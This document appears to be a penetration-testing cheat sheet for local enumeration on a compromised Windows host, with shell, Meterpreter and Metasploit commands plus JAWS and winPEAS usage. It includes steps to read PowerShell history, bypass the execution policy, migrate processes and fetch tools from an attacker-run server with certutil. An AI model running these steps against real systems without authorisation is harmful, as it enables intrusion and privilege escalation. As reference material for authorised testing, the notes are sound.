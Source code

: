 # Windows - Local Enumeration

### System Information

```bash
# Shell
hostname
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn

# Meterpreter
getuid
sysinfo
cd C:\Windows\System32\ && cat eula.txt # The file may not be exist
```

### Users & Groups

```bash
# Shell
whoami
whoami /priv
query user
net users
net user SYS_USER # (ex Administrator, guest, antonio)
net localgroup
net localgroup GROUP_NAME
net localgroup administrators

# Meterpreter 
getuid
getprivs

# msfconsole
use post/windows/gather/enum_logged_on_users
set sessions N
run
```

### Network information

```bash
# Shell
ipconfig
ipconfig /all
route print
arp -a
netstat -ano

netsh firewall show state
netsh advfirewall firewall help
netsh advfirewall show allprofiles
```

### Processes & Services

```bash
# Processes
## Meterpreter session
ps
pgrep SERVICE_NAME # pgrep explorer.exe
migrate PID

# Services
net start
wmic service list brief
tasklist /SVC
schtasks /query /fo LIST /v
```

### Console History

```powershell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```



## Automating Windows Local Enumeration

### JAWS

{% embed url="https://github.com/411Hall/JAWS" %}

1. Copy .ps1 script on attcker machine
2. upload on meterpreter session (in C:\Temp)
3. run this command on windows shell

```bash
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
```

```bash
# download file on attack machine
download JAWS-Enum.txt
```

### winPEAS

Download the last version on attacker machine

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS" %}

{% code overflow="wrap" %}
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/download/20250113-4426d62e/winPEASx64.exe
```
{% endcode %}

Transfer file to target machine

```bash
# attacker machine 
python3 -m http.server 80

# target machine
certutil -urlcache -f http://IP:80/winPEASx64.exe winPEASx64.exe
```

Execute WinPEAS on target machine

```powershell
.\winPEASx64.exe > peas.txt
```





***

### Metasploit

<pre class="language-bash"><code class="lang-bash"><strong># Metasploit
</strong>service postgresql start &#x26;&#x26; msfconsole

## Modules
use post/windows/gather/win_privs
use post/windows/gather/enum_logged_on_users
use post/windows/gather/checkvm
use post/windows/gather/enum_applications
use post/windows/gather/enum_computers
use post/windows/gather/enum_patches
use post/windows/gather/enum_shares

set session N
run
</code></pre>
